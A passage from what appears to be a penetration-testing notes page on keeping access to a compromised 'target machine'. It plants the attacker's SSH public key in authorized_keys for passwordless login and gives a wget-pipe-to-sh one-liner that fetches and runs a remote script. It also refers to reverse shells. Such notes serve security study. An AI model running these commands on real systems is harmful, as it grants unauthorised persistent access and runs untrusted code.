 Execute `ssh-keygen` and you should see `id_rsa` and `id_rsa.pub` files appear in your own `.ssh` folder. Copy the content of the `id_rsa.pub` file and put it inside the `authorized_keys` file on the target machine (located in `.ssh` folder). If the `authorized_keys` does not exist on the target machine, create it and `chmod 600 authorized_keys`. After that, connect to the machine using your `id_rsa` file with `ssh -i id_rsa USER@IP` and you won't be asked for a password. Note that this way you leave a trace of yourself.

NOTE: If the target machine does not have `ssh` config files at all. Just make them like previously mentioned.

NOTE: The ssh server also needs to allow this all.

### Reverse Shell

See the dedicated document: [Reverse Shell](reverse-shell)

### Execute a Remote Script

    wget http://server/file.sh -O- | sh  

This command forces the download of a file and immediately its execution

## Resources

- [GTFObins](https://gtfobins.github.io) - `GTFOBins` is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
